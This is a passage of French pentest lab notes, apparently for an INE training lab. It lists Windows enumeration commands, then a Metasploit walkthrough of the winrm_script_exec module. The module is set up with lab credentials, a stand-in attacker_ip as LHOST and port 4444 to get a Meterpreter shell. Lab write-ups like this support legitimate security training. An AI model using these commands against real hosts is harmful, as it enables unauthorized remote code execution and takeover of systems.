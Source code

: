 ```bash
set CMD "net user"
set CMD "net localgroup administrators"

# Processus et services
set CMD tasklist
set CMD "sc query"
```

---

## 🚀 5. Exploitation WinRM pour Meterpreter

### Module winrm_script_exec (RCE complet)
```bash
# Module d'exploitation principal
use exploit/windows/winrm/winrm_script_exec
show info
show options

# Configuration
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set LHOST attacker_ip
set LPORT 4444
set FORCE_VBS true

# Vérification
show options
show payloads

# Exploitation
exploit
```

### Options du module winrm_script_exec
| Option | Description | Valeur |
|--------|-------------|--------|
| `RHOSTS` | IP cible | demo.ine.local |
| `USERNAME` | Utilisateur WinRM | administrator |
| `PASSWORD` | Mot de passe | tinkerbell |
| `LHOST` | IP attaquant | attacker_ip |
| `LPORT` | Port écoute | 4444 |
| `FORCE_VBS` | Forcer VBScript | true |
| `SSL` | Utiliser HTTPS | false |
| `DOMAIN` | Domaine | (optionnel) |

